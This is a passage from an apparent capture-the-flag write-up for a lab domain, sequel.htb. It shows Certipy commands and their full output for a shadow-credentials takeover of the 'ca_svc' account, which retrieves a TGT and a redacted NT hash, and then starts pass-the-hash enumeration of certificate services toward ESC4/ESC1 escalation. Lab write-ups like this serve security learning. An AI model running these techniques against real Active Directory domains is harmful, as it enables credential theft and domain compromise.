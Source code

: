 ```bash
certipy shadow \
    -u 'ryan' -p '<REDACTED>' \
    -dc-ip "$IP" -account 'ca_svc' \
    auto
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '941f7c7f-1e9c-905d-2334-ebe1eebc29ad'
[*] Adding Key Credential with device ID '941f7c7f-1e9c-905d-2334-ebe1eebc29ad' to the Key Credentials for 'ca_svc'
[*] Successfully added Key Credential with device ID '941f7c7f-1e9c-905d-2334-ebe1eebc29ad' to the Key Credentials for 'ca_svc'
[*] Authenticating as 'ca_svc' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'ca_svc@sequel.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'ca_svc.ccache'
[*] Wrote credential cache to 'ca_svc.ccache'
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Restoring the old Key Credentials for 'ca_svc'
[*] Successfully restored the old Key Credentials for 'ca_svc'
[*] NT hash for 'ca_svc': <REDACTED>
```

From the `ca_svc` we can start to enumerate the `ADCS` for the server.
## Privilege Escalation With ADCS - ESC4/ESC1

```bash
certipy find -u 'ca_svc@sequel.htb' -hashes '<REDACTED>' -vulnerable -stdout

Certipy v5.0.2 - by Oliver Lyak (ly4k)

<SNIP>
Certificate Authorities
  0
    CA Name                             : sequel-DC01-CA
    DNS Name                            : DC01.sequel.htb
    Certificate Subject                 : CN=sequel-DC01-CA, DC=sequel, DC=htb
    Certificate Serial Number           : 152DBD2D8E9C079742C0F3BFF2A211D3
    Certificate Validity Start          : 2024-06-08 16:50:40+00:00
    Certificate Validity End            : 2124-06-08 17:00:40+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : SEQUEL.HTB\Administrators
      Access Rights
        ManageCa                        : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        ManageCertificates              : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
```